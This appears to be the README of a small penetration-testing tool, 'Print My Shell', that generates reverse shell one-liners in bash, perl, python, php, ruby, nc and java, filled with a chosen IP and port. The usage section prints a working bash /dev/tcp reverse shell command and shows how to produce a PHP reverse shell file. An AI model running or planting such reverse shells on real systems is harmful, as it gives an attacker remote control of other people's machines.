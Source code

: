 # PMS
PMS - Print My Shell

PMS will help you get you revers shell filled with you IP and port number.\
It's contains [pentestmonkey revers shell cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) shells.

Configuration
----------------
In ```pms.conf``` file you can set your  ```ethernet_interface``` name, ```ip``` address or ```port``` number\
If your ```ip``` address is set in the conf file it won't use the ```ethernet_interface``` address\
You can specify your ```ip``` address or ```port``` number as an argument too.

Arguments
-----------------
```-t --type```: **required**, reverse shell type , (eg. "bash")\
```-c --config```: *optional* , configuration file , ```<default> pms.conf```\
```-i --ip```: *optional*, IP address\
```-p --port```: *optional* port number\

shell types : bash, perl, python, php (shell), ruby, nc, nc-2, java, php-rev (file)


Usage
----------------
```sh
$ python3 pms.py --type bash
bash -i >& /dev/tcp/10.0.0.1/1111 0>&1
```
Get php reverse shell file
```sh
$ python3 pms.py --type php-rev > shell.php
```
